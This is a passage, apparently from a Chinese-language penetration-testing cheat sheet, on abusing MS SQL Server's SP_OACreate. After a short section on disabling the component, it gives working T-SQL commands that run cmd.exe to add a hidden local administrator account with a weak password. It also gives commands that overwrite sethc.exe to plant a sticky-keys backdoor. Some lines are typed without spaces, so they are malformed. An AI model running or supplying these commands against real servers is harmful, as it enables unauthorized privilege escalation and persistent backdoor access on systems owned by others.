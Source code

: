 关闭组件SP\_OACreate

```shell
exec sp_configure 'show advanced options',1;reconfigure;
exec sp_configure 'ole automation procedures',0;reconfigure;
exec sp_configure 'show advanced options',0;reconfigure;
```

利用SP\_OACreate添加用户提权

```shell
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net user quan 123456 /add'
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net localgroup administrators quan /add'
```

利用SP\_OACreate的其他操作  
sp\_OACreate替换粘贴键

```shell
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
execsp_oamethod@o,'copyfile',null,'c:\windows\explorer.exe' ,'c:\windows\system32\sethc.exe';
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
execsp_oamethod@o,'copyfile',null,'c:\windows\system32\sethc.exe' ,'c:\windows\system32\dllcache\sethc.exe';
```

**（4）使用注册表存储过程：xp\_regwrite**